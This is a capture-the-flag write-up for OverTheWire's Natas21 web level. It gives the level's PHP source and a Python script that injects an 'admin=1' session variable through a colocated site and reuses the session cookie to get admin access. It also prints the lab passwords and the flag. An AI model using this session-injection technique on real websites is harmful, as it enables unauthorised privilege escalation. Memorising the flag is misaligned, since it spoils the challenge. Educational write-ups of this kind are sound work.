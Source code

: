 # CTF Writeup - **OverTheWire Natas20 - Natas21**

**Author**: spiketyson 

---

## Challenge Details

- **Challenge Name:** Natas20 - Natas21
- **Category:** Linux
- **Difficulty Level:** Easy
- **Date:** 20-12-2024

---

## Summary

This challenge is the introductory level for the Natas series on OverTheWire, focusing on web exploitation. The goal is to find the flag that is hidden web server using burpsuite if possible.

---

## Approach

Since this is an basic challenge, I planned to use python to find the flag using session hijacking.

---

## Solution Walkthrough

Connecting to the web server using:

```bash
Username: natas21
Password: BPhv63cKE1lkQl04cE5CuFTzXe15NfiH
URL1:      http://natas21.natas.labs.overthewire.org
URL1:      http://natas21-experimenter.natas.labs.overthewire.org
```

After logging in, we can see that the webpage doesnot ask for any input. It has another webpage associated with it.

```bash
Note: this website is colocated with http://natas21-experimenter.natas.labs.overthewire.org
You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.
```

This is not very helpful. Lets view the source code since we know that the source code is in `http://natas21.natas.labs.overthewire.org/index-source.html`.

```bash
# <?php

# function print_credentials() { /* {{{ */
#     if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
#     print "You are an admin. The credentials for the next level are:<br>";
#     print "<pre>Username: natas22\n";
#     print "Password: <censored></pre>";
#     } else {
#     print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
#     }
# }
# /* }}} */

# session_start();
# print_credentials();

# ?>
```

We can see that this php code just checks if the session variable `admin` is `1` and prints the credentials. Intuitively we need to set the `admin` as `1`. But we dont have any option here. Lets explore the other site.

```bash
Note: this website is colocated with http://natas21.natas.labs.overthewire.org
Example: 
    Hello World!

Change example values here:
align: center
fontsize: 100%
bgcolor: yellow
```

This is interesting as we can update some values in here. Lets view the source code since we know that the source code is in `http://natas21-experimenter.natas.labs.overthewire.org/index-source.html`.

```bash
<?php

session_start();

// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}

if(array_key_exists("debug", $_GET)) {
    print "[DEBUG] Session contents:<br>";
    print_r($_SESSION);
}

// only allow these keys
$validkeys = array("align" => "center", "fontsize" => "100%", "bgcolor" => "yellow");
$form = "";

$form .= '<form action="index.php" method="POST">';
foreach($validkeys as $key => $defval) {
    $val = $defval;
    if(array_key_exists($key, $_SESSION)) {
    $val = $_SESSION[$key];
    } else {
    $_SESSION[$key] = $val;
    }
    $form .= "$key: <input name='$key' value='$val' /><br>";
}
$form .= '<input type="submit" name="submit" value="Update" />';
$form .= '</form>';

$style = "background-color: ".$_SESSION["bgcolor"]."; text-align: ".$_SESSION["align"]."; font-size: ".$_SESSION["fontsize"].";";
$example = "<div style='$style'>Hello world!</div>";

?>
```

Now we can see that the above php code gets executed whenever we submit the values. Initially it check if the update was submitted based on that it stores all the values sent to it in the session variable. This is very interesting to us as we can now send any parameter and it will be stored in the session. Then if checks if the `debug` is set and prints contents based on that. Finally it predifines some keys and prints them to the user and sets the default value if not updated. We can take advantage of the storing mechanism using the below code 

```bash
import requests

target = 'http://natas21-experimenter.natas.labs.overthewire.org?debug=true&submit=1&admin=1'
target1 = 'http://natas21.natas.labs.overthewire.org?debug=true'
auth = ('natas21','BPhv63cKE1lkQl04cE5CuFTzXe15NfiH')

session = requests.Session()

r = session.get(target, auth=auth)
print(r.text)
print(r.cookies["PHPSESSID"])

r = session.get(target1, cookies={"PHPSESSID": r.cookies["PHPSESSID"]}, auth=auth)
print(r.text)
```

The above script first tries sending the values using get parameter. `submit` is set to `1` to simulate the update, `admin` is set to `1` to store the variables in the session, and `debug` is set to `true` as we need to test if its working. Then it creates a new session to send the data and obtain the cookies set in the `PHPSESSIONID`. Then we are trying to go to the actually url using the same session to see if the session variable is set and view our password.


```bash
# <html>
# <head><link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css"></head>
# <body>
# <h1>natas21 - CSS style experimenter</h1>
# <div id="content">
# <p>
# <b>Note: this website is colocated with <a href="http://natas21.natas.labs.overthewire.org">http://natas21.natas.labs.overthewire.org</a></b>
# </p>
# [DEBUG] Session contents:<br>Array
# (
#     [debug] => true
#     [submit] => 1
#     [admin] => 1
# )

# <p>Example:</p>
# <div style='background-color: yellow; text-align: center; font-size: 100%;'>Hello world!</div>
# <p>Change example values here:</p>
# <form action="index.php" method="POST">align: <input name='align' value='center' /><br>fontsize: <input name='fontsize' value='100%' /><br>bgcolor: <input name='bgcolor' value='yellow' /><br><input type="submit" name="submit" value="Update" /></form>
# <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
# </div>
# </body>
# </html>

# n8s5c0s0drefh7uu60d5fr84p8
# <html>
# <head>
# <!-- This stuff in the header has nothing to do with the level -->
# <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
# <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
# <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
# <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>       
# <script>var wechallinfo = { "level": "natas21", "pass": "BPhv63cKE1lkQl04cE5CuFTzXe15NfiH" };</script></head>
# <body>
# <h1>natas21</h1>
# <div id="content">
# <p>
# <b>Note: this website is colocated with <a href="http://natas21-experimenter.natas.labs.overthewire.org">http://natas21-experimenter.natas.labs.overthewire.org</a></b>
# </p>

# You are an admin. The credentials for the next level are:<br><pre>Username: natas22
# Password: d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz</pre>
# <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
# </div>
# </body>
# </html>
```

We can see that the session stores the `data` the we send in session variables displayed by the `debug`. We are able to use the same cookies to obtain the credentials for the next level.

## Flag

**Flag:** d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz


---

## Lessons Learned

It was a hard challenge for me. I was to code the idea and identify the weakness but i didn't know how to exploit it using python. I learnt a lot on how to approach these types of challenges.
